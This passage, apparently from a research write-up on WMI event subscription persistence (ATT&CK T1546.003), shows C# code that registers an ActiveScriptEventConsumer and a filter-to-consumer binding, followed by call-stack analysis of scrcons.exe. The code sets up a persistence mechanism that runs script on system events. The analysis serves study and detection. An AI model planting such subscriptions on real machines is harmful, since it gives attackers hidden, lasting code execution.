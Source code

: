 ```c#
                
                // ActiveScriptEventConsumer
                myEventConsumer = new ManagementClass(scope, new ManagementPath("ActiveScriptEventConsumer"), null).CreateInstance();
                myEventConsumer["Name"] = "BadActiveScriptEventConsumer";
                myEventConsumer["ScriptingEngine"] = "VBScript";
                myEventConsumer["ScriptText"] = vbscript;
                myEventConsumer.Put();

                // CommandLineEventConsumer
                /*myEventConsumer =
                new ManagementClass(scope, new ManagementPath("CommandLineEventConsumer"),
                null).CreateInstance();
                myEventConsumer["Name"] = "BadCommandLineEventConsumer";
                myEventConsumer["ExecutablePath"] = @"C:WindowsSystem32cmd.exe";
                myEventConsumer["CommandLineTemplate"] = @"cmd /c powershell mkdir <YOUR_PATH>";
                myEventConsumer.Put();*/

                Console.WriteLine("[*] Event consumer created.");

                myBinder =
                new ManagementClass(scope, new ManagementPath("__FilterToConsumerBinding"),
                null).CreateInstance();
                myBinder["Filter"] = myEventFilter.Path.RelativePath;
                myBinder["Consumer"] = myEventConsumer.Path.RelativePath;
                myBinder.Put();

                Console.WriteLine("[*] Subscription created");
            }
            catch (Exception e)
            {
                Console.WriteLine(e);
            }
        }
    }
}

```

## Analysis on scrcons.exe
### Code execution: Calling COM object `IActiveScript`
Noteable Call Stack  
Initiation part
![stack_trace_cexecclassfactory_createinstance.png](./Images_T1546.003/stack_trace_cexecclassfactory_createinstance.PNG)

Loading the script text inside `CScriptSink::Initialize`
![stack_trace_cexecclassfactory_createinstance.png](./Images_T1546.003/stack_trace_cscript_initialize.PNG)
